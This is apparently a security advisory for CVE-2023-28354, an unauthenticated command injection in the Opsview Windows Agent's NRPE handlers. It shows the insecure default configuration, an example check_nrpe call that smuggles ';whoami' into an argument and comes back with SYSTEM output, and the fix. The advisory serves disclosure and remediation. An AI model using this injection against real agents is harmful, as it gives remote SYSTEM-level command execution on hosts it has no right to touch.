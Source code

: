 # CVE-2023-28354
## Vulnerability Description
A vulnerability has been identified in Opsview Monitor Agent 6.8 that allows an unauthenticated remote attacker to execute arbitrary commands. An unauthenticated attacker can exploit this vulnerability on Windows by supplying an command-line escape sequence when calling default Opsview Agent Monitor scripts, allowing execution of arbitrary system commands.

## Description
The Opsview Agent service on Windows runs as Local System by default. This default configuration also contains several NRPE handlers, allowing administrators to call scripts which execute predefined functions such as querying system status, file age, or mountpoints. These handlers are configured to accept arguments (`allow_arguments=1`) as well as command-line escape characters (`allow_nasty_meta_characters=1`).

The NRPE handlers are insecurely configured in the affected version of the Opsview Agent to echo command input and any arguments from a remote user calling the script directly into Powershell.

A default `opsview.ini` configuration file:
```
75: [External Script]
76: ;# COMMAND ARGUMENT PROCESSING
77: ;  This option determines whether or not the NRPE daemon will allow clients to specify arguments to commands that are executed.
78: allow_arguments=1
79: 
80: ;# COMMAND ALLOW NASTY META CHARS
81: ;  This option determines whether or not the NRPE daemon will allow clients to specify nasty (as in |`&><'"\[]{}) characters in arguments.
82: allow_nasty_meta_chars=1

[...]snip[...]

94: [NRPE Handlers]
95: check_mountpoint=cmd /c echo scripts\check_mountpoint.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
96: check_services_orig=cmd /c echo scripts\check_services.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
97: check_services=scripts\check_services.exe $ARG1$
98: check_clustergroup=cmd /c echo scripts\check_clustergroup.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
99: check_windows_base_orig=cmd /c echo scripts\check_windows_base.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
100: check_windows_base=scripts\check_windows_base.exe $ARG1$
101: check_msmq=cmd /c echo scripts\check_msmq.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
102: check_ms_iis=cmd /c echo scripts\check_ms_iis.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
103: check_ms_dns=cmd /c echo scripts\check_ms_dns.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
104: check_ms_sql_database_states=cmd /c echo scripts\check_ms_sql_database_states.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
105: check_ms_sql_performance=cmd /c echo scripts\check_ms_sql_performance.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
106: check_ms_sql_system=cmd /c echo scripts\check_ms_sql_system.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
107: check_ms_hyperv_server=cmd /c echo scripts\check_ms_hyperv_server.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
108: check_microsoft_exchange2016_backpressure=cmd /c echo scripts\check_microsoft_exchange2016_backpressure.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
109: check_microsoft_exchange2013_backpressure=cmd /c echo scripts\check_microsoft_exchange2013_backpressure.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
110: check_microsoft_exchange_counters=cmd /c echo scripts\check_microsoft_exchange_counters.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
111: check_microsoft_exchange=cmd /c echo scripts\check_microsoft_exchange.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
112: check_active_directory=cmd /c echo scripts\check_active_directory.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
113: check_windows_updates=cmd /c echo scripts\check_windows_updates.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
114: check_file_age=cmd /c echo scripts\checkfileage.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
115: check_counter=cmd /c echo scripts\check_counter.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
116: check_xen=cmd /c echo scripts\check_xen.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
117: check_horizon=cmd /c echo scripts\check_horizon.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
118: check_xencloud=cmd /c echo scripts\check_xencloud.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
119: check_wineventlog=cmd /c echo scripts\check_wineventlogn.ps1 $ARG1$; exit($lastexitcode) | PowerShell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command -
```
## Exploit
Attacking default installations from Linux can be achieved with the Nagios `check_nrpe` utility to interact with a known-handler, supplying an command-line escape and desired command to be run remotely as an argument.

For example:
```
$ /usr/lib/nagios/plugins/check_nrpe -H 192.168.0.15 -c check_file_age -a "a;whoami"
CRITICAL: File a does not exist
nt authority\system
```

## Affected Products
Opsview Windows Agent 28-09-2022, and x64 and Win32 releases.

Remote fingerprint for vulnerable product:
`OpsviewAgent 0.3.9.700 2022-09-28; osname=windows`

## Fix
Upgrade to Opsview Windows Agent 09-03-2023 release.

Note: The Opsview Agent will not receive any further updates as per ITRS's notification. It is instead recommended to upgrade to the ITRS Infrastructure Agent.

[Download Link](https://resources.itrsgroup.com/downloads)
